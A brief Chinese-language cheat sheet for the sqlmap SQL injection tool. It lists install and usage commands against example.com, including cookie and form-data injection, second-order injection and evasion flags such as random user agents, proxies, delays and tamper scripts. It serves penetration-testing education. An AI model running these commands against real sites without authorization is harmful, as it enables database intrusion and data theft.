sqlmap goal is to detect and take advantage of SQL injection vulnerabilities in web applications.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ sudo apt install -y sqlmap
```

## 2. Usage

经典注入

```
┌──(sec@debian)-[~]
└─$ sqlmap -u "http://example.com/search.php?id=1" --current-user
```

指定测试参数

```
┌──(sec@debian)-[~]
└─$ sqlmap -u "http://example.com/search.php?id=1" -p "id" --current-user
```

添加 Cookie 值

```
┌──(sec@debian)-[~]
└─$ sqlmap -u "http://example.com/search.php?id=1" --cookie "PHPSESSID=a8d127e.." --current-user
```

添加表单数据

```
┌──(sec@debian)-[~]
└─$ sqlmap -u "http://example.com/login.php" --data="username=test&password=test" --current-user
```

从文件中载入 HTTP 请求

```
┌──(sec@debian)-[~]
└─$ sqlmap -r "http.txt" --current-user
```

二次响应

> Response 与 Request 不在同一个页面

```
┌──(root㉿kali)-[~]
└─# sqlmap -r "http.txt" --second-url "http://example.com/response" --current-user
```

进阶用法

```
--level 5                 # 增加检测范围
--risk 2                  # 提高测试强度
--random-agent            # 随机 HTTP User-Agent
--proxy "127.0.0.1:10808" # 配置代理
--delay 3                 # 延迟 3 秒注入
--tamper=sqli.py          # 调用脚本
```

---

References

- [sqlmap](https://www.kali.org/tools/sqlmap/)
